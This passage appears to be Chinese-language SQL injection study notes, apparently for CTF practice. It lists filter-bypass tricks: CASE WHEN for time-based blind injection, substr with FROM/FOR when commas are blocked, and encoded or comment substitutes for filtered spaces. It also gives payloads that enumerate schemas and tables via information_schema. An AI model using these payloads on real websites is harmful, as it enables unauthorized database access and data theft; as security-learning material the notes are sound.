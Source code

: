 一般用到逗号都是联合查询&报错注入，或者时间盲注

时间盲注用case when的方法：

- case when

if 被过滤，可以用case when (时间盲注等情况)

```sql
select -1 or case when 1=1 then 1 else 0 end;
```



![image-20210819112352949](https://raw.githubusercontent.com/hmt38/abcd/master/image-20210819112352949.png)



- substr 逗号被过滤，可以用substr(xxx from 1 for 1)

# 18 过滤空格

```
/**/        (首选)  py脚本可以用replace函数，参考jacko脚本

%a0

%0a

%0d

%09
 
tab
```

- unicode编码(编码绕过)



![f689d61f777d7ffd32a6872d4ab57c3f.png](https://raw.githubusercontent.com/hmt38/abcd/master/f689d61f777d7ffd32a6872d4ab57c3f.png)



- 两个空格

- tab

- 括号（建议现在本地把payload测试完后再怼上去，先从小的往外面打括号）

  例子

  爆库

  ```sql
  select(group_concat(schema_name))from(information_schema.schemata);
  ```

  爆表

```sql
select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'test'
```
